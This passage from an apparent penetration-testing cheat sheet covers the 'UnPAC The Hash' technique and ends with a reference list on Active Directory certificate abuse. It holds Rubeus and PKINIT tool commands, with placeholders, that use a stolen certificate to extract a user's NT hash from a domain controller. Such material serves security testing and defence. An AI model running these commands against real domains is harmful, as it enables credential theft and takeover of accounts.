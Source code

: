 
## UnPAC The Hash

Using the **UnPAC The Hash** method, you can retrieve the NT Hash for an User via its certificate.

* Windows
    ```ps1
    # Request a ticket using a certificate and use /getcredentials to retrieve the NT hash in the PAC.
    Rubeus.exe asktgt /getcredentials /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
    ```
* Linux
    ```ps1
    # Obtain a TGT by validating a PKINIT pre-authentication
    $ gettgtpkinit.py -cert-pfx "PATH_TO_CERTIFICATE" -pfx-pass "CERTIFICATE_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
    
    # Use the session key to recover the NT hash
    $ export KRB5CCNAME="TGT_CCACHE_FILE" getnthash.py -key 'AS-REP encryption key' 'FQDN_DOMAIN'/'TARGET_SAMNAME'
    ```


## References

* [Certified Pre-Owned - Will Schroeder and Lee Christensen - June 17, 2021](http://www.harmj0y.net/blog/activedirectory/certified-pre-owned/)
* [Certified Pre-Owned Abusing Active Directory Certificate Services - @harmj0y @tifkin_](https://i.blackhat.com/USA21/Wednesday-Handouts/us-21-Certified-Pre-Owned-Abusing-Active-Directory-Certificate-Services.pdf)
* [Certified Pre-Owned - Will Schroeder - Jun 17 2021](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
* [Microsoft ADCS – Abusing PKI in Active Directory Environment - Jean MARSAULT - 14/06/2021](https://www.riskinsight-wavestone.com/en/2021/06/microsoft-adcs-abusing-pki-in-active-directory-environment/)
* [NTLM relaying to AD CS - On certificates, printers and a little hippo - Dirk-jan Mollema](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/)
* [AD CS/PKI template exploit via PetitPotam and NTLMRelayx, from 0 to DomainAdmin in 4 steps by frank | Jul 23, 2021](https://www.bussink.net/ad-cs-exploit-via-petitpotam-from-0-to-domain-domain/)
* [ADCS: Playing with ESC4 - Matthew Creel](https://www.fortalicesolutions.com/posts/adcs-playing-with-esc4)
* [AD CS: weaponizing the ESC7 attack - Kurosh Dabbagh - 26 January, 2022](https://www.blackarrow.net/adcs-weaponizing-esc7-attack/)
* [AD CS: from ManageCA to RCE - 11 February, 2022 - Pablo Martínez, Kurosh Dabbagh](https://www.blackarrow.net/ad-cs-from-manageca-to-rce/)
* [Certifried: Active Directory Domain Privilege Escalation (CVE-2022–26923) - Oliver Lyak](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4)
* [UnPAC the hash - The Hacker Recipes](https://www.thehacker.recipes/ad/movement/kerberos/unpac-the-hash)
* [AD CS relay attack - practical guide - 23 Jun 2021 - @exandroiddev](https://www.exandroid.dev/2021/06/23/ad-cs-relay-attack-practical-guide/)
* [Relaying to AD Certificate Services over RPC - NOVEMBER 16, 2022 - SYLVAIN HEINIGER](https://blog.compass-security.com/2022/11/relaying-to-ad-certificate-services-over-rpc/)
* [bloodyAD and CVE-2022-26923 - soka - 11 May 2022](https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html)
* [Certificates and Pwnage and Patches, Oh My! - Will Schroeder - Nov 9, 2022](https://posts.specterops.io/certificates-and-pwnage-and-patches-oh-my-8ae0f4304c1d)